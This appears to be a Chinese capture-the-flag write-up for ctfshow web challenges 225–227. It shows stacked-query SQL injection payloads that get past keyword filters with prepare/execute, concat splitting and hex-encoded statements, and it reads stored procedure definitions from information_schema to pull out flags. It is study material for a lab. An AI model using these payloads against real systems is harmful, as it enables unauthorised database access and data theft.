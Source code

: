 ### 思路二

执行预处理的sql语句，通过拼接绕过select的限制，变量名不要叫`sql`，`sql是关键字`

```sql
ctfshow';show tables;prepare a from concat('s','elect',' *from ctfshow_flagasa');execute a;#
```

![2253](https://the0n3.top/medias/show-sql/2253.png)

::: tip
通过拼接执行`select version();`，发现这是`{version(): "10.3.18-MariaDB"}`，是mysql的一个分支，大多数语法都是兼容的，但是在这里的执行动态拼接语句是一个不兼容问题。  
`MariaDB`可以执行`concat`函数拼接的sql语句，`Mysql`更严格，不允许
:::

## web 226 16进制+预处理

`prepare from`还可以直接处理十六进制字符串，太强了。测试发现，`mysql`是不兼容这个语法，局限于题目的这个MariaDB数据库了。

```sql
# show tables
prepare a from 0x73686F77207461626C65733B;execute a;#
# select *from ctfsh_ow_flagas
prepare a from 0x73656C656374202A66726F6D2063746673685F6F775F666C61676173;execute a;#
```

## web 227  数据存储过程

新增过滤`db``,`，上一题的思路还能用

```sql
# show tables  只有一个ctfshow_user表
prepare a from 0x73686F77207461626C65733B;execute a;#
# select *from ctfshow_user 查到的信息都是题目已经给的
prepare a from 0x73656C656374202A66726F6D2063746673686F775F75736572;execute a;#
```

换个思路，可能flag存进去又删库了。找找记录？

![227](https://the0n3.top/medias/show-sql/227.png)

```sql
# 查找在存储过程是否定义了flag
SELECT ROUTINE_DEFINITION FROM information_schema.ROUTINES
```

转成16进制，执行预处理sql语句，可以看到定义过程的flag。太强了，又有了奇怪的想法

```sql
user1';prepare a from 0x53454C45435420524F5554494E455F444546494E4954494F4E2046524F4D20696E666F726D6174696F6E5F736368656D612E524F5554494E4553;execute a;#
```

![2271](https://the0n3.top/medias/show-sql/2271.png)
